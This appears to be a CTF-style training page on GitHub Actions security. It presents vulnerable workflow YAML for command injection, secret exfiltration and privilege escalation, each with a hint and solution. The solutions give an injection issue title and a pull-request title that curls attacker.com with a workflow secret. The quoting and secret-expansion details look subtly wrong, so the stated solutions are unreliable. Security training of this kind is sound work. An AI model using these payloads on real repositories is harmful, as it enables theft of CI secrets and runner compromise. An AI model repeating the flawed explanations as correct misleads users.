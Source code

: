 # Advanced Attack Scenario 10: GitHub Actions CTF-style challenge

This scenario is a CTF-style challenge that will test your knowledge of GitHub Actions security. The challenge consists of a series of progressively more difficult challenges, each of which involves a different vulnerability. To complete the challenge, you will need to find the flag at the end of each challenge.

## Challenge 1: Command Injection

**Description:**

The first challenge is a simple command injection vulnerability. You will need to find a way to execute arbitrary commands on the runner.

**Vulnerable Code:**

```yaml
name: Challenge 1
on:
  issues:
    types: [opened]
jobs:
  challenge1:
    runs-on: ubuntu-latest
    steps:
      - name: Challenge 1
        run: |
          echo "The flag is in a file called flag.txt"
          echo "Your input: ${{ github.event.issue.title }}"
```

**Hint:**

Try to use a shell command to read the contents of the `flag.txt` file.

**Solution:**

Create an issue with the title `'; cat flag.txt'`.

## Challenge 2: Secret Exfiltration

**Description:**

The second challenge is a secret exfiltration vulnerability. You will need to find a way to exfiltrate a secret from the workflow.

**Vulnerable Code:**

```yaml
name: Challenge 2
on:
  pull_request_target:
    types: [opened]
jobs:
  challenge2:
    runs-on: ubuntu-latest
    steps:
      - name: Challenge 2
        run: |
          echo "The flag is in a secret called FLAG"
          echo "Your input: ${{ github.event.pull_request.title }}"
```

**Hint:**

Try to use a shell command to exfiltrate the secret to a third-party service.

**Solution:**

Create a pull request with the title `'; curl http://attacker.com/?flag=${{ secrets.FLAG }}'`.

## Challenge 3: Privilege Escalation

**Description:**

The third challenge is a privilege escalation vulnerability. You will need to find a way to escalate your privileges on the runner.

**Vulnerable Code:**

```yaml
name: Challenge 3
on:
  push:
    branches: [ main ]
jobs:
  challenge3:
    runs-on: self-hosted
    steps:
      - name: Challenge 3
        run: |
          echo "The flag is in the /root directory"
```

**Hint:**

Try to use a kernel exploit to gain root access to the host machine.

**Solution:**

Use a kernel exploit to gain root access to the host machine and then read the contents of the `/root/flag.txt` file.
